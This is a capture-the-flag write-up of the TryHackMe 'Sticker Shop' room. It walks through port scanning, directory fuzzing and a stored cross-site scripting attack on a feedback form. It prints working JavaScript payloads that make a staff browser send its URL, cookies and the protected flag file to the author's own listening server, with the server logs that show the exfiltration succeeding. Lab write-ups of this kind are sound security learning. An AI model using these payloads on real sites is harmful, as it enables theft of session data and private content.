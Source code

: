# Write-Up: The Sticker Shop
**Date:** 01/27/2025

**User:** [JAKK](https://tryhackme.com/p/JAKK)

[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-ranked CTF box that challenges us to access a flag at a specified location of the web server. It introduces us to a common web vulnerability found in websites, seldom being showcased on TryHackMe.

## Reconaissance

### Port Scan
We start by scanning the target for open ports using *nmap*.
```
nmap -sV -sC -T4 -p0-65535 sticker.thm
```

```
Host is up (0.037s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see two open ports with the web service being offered on `8080`. Let's open the page with a web browser.

### Inspecting the Website
![Homepage of hosted website](img/StickerShop-InitialPage.png)

Apart from two buttons and cat images, there is nothing to see.

- We're not able to inspect the `/static/` route or its subfolders, such as `/static/images/`, which contains the image files. The images are sequentially named, i.e. `cat_sticker_1.png`, `cat_sticker_2.png`. The absence of `cat_sticker_3.png` likely tells us that there exist no other images. Since the file format is PNG, no secret information could have been embedded via steganography.
- Inspecting the buttons, we can see that *Home* leads us to `/`, i.e. the position we're currently at, while *Feedback* brings us to `/submit_feedback`. There we find an input form that allows us to submit feedback, which is sent to the same URI via POST.

![Feedback page of the hosted website](img/StickerShop-FeedbackPage.png)

- If we try to access the flag under the known location (`http://sticker.thm:8080/flag.txt`), we receive the response code `401`, which tells us that we are not authorized to access the flag.

### Fuzzing
Let's see if we can find more resources on the server with `gobuster`. Since no domain name for the website is known, we can only enumerate directories, not subdomains. Additionally, we will also look for files with the extensions `.txt`, `.py`, `.bak` and `.sql`, to find potential backups or source code.

```
gobuster dir -u 'http://sticker.thm:8080/' -w '/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt' -x 'txt,py,bak,sql'
```

As a result, we only find the already known path `/flag.txt`.

In general, it's also worth checking if there are any hidden GET or POST parameters being evaluated on the known routes, which can be done with [arjun](https://github.com/s0md3v/Arjun).

```
arjun -u http://sticker.thm:8080/submit_feedback -m POST
```
```
[*] Scanning 0/1: http://sticker.thm:8080/submit_feedback
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[+] Extracted 1 parameter from response for testing: feedback
[*] Logicforcing the URL endpoint
[!] No parameters were discovered.
```

Unfortunately, no hidden parameter can be found.

## Tampering With the Input Form
When we send feedback via the input form (on `/submit_feedback`), we're being told that the message will be evaluated shortly by the site's staff. It could be possible that the person doing this might use a web browser to access a restricted section of the website, in which case we can try to inject some Javascript code into the staff's rendered webpage by including code in our message. This of course only works if the submitted message isn't sanitized by the server and just handed down. To test this, we will start a simple webserver with Python and see if requests on it are being made.

We start the server with the following command.
```
python -m http.server 9000
```

We then send the following message via the form. The code included in the `<script>` tags prompts an HTTP request to our local server performed by the staff. Depending on the fact if a request is made, we can determine if the XSS attack works.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + window.location.href, false);
req.send();
</script>
```
And indeed, we can see that the Javascript code of our submitted feedback is executed.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:23:56] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:23:56] "GET /http://127.0.0.1:8080/view_feedback HTTP/1.1" 404 -
```
Trying to navigate to the newly found route, `/view_feedback`, doesn't give us more information about the site since authentication is required. But now we can try to elevate the XSS to reach our goal!

Trying the easiest thing, we use the following feedback message to dump the session cookies of the staff. This only works if the creators of the website forgot to set the cookies as HttpOnly, allowing Javascript to access them.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + document.cookie, false);
req.send();
</script>
```
Unfortunately, we reveive a request on `/`, meaning that the session cookies, if existent, can't be read by our injected code.

But since the staff obviously can access the `/view_feedback` route, which requires authentication, he will likely be able to also access `/flag.txt`. We therefore extend our payload a little bit and let the staff's browser make a request for the flag and then send us its value.

```
<script>
var flag_req = new XMLHttpRequest();
flag_req.open("GET", "/flag.txt", false);
flag_req.send();
var share_req = new XMLHttpRequest();
share_req.open("GET", "http://10.9.4.33:9000/" + flag_req.responseText, false);
share_req.send();
</script>
```

It's important to reference the flag by its relative path, otherwise the payload will not work. This is probably due to CORS rules, preventing the access to the file from outside the domain. Finally, we retrieve the flag from the requested URI that we can inspect on our local server.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:33:07] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:33:07] "GET /THM%7B-REDACTED_FLAG-%7D HTTP/1.1" 404 -
```

Note that the string is URL encoded. We can decode it with hURL.
```
hURL -u "THM%7B-REDACTED_FLAG-%7D"
Original    :: THM%7B-REDACTED_FLAG-%7D
URL DEcoded :: THM{-REDACTED_FLAG-}
```

## Conclusion
I really enjoyed this CTF, since XSS attacks are quite rare on TryHackMe and similar platforms, probably due to the necessary user interaction which needs to be emulated. Thanks to TryHackMe user [toxicat0r](https://tryhackme.com/p/toxicat0r) for creating this room.
